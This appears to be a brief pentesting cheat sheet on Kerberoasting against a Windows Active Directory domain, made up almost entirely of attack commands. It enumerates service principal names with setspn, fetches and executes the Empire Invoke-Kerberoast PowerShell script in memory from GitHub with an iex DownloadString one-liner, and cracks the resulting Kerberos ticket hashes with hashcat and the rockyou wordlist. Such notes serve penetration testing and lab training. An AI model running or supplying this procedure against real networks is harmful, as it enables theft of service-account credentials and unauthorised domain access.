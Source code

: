 # Kerberoasting

## Enumeration

From powershell on the Windows box, call `setspn -T medin -Q */*` to get all accounts in the Service Principal Name (SPN).

This will output a list on the form:
```
CN=${USER},CN=Users,DC=${DC},DC=local
```

Look for the service that looks promising.

Now, we can get the `Invoke-Kerberoast` script:

```
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1') 
```

(or get the script from your attack box)

now, copy the Hash (including the prefix `$krb5tgs$`) into a file in a single line, and call:

```
hashcat -a 0 -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```
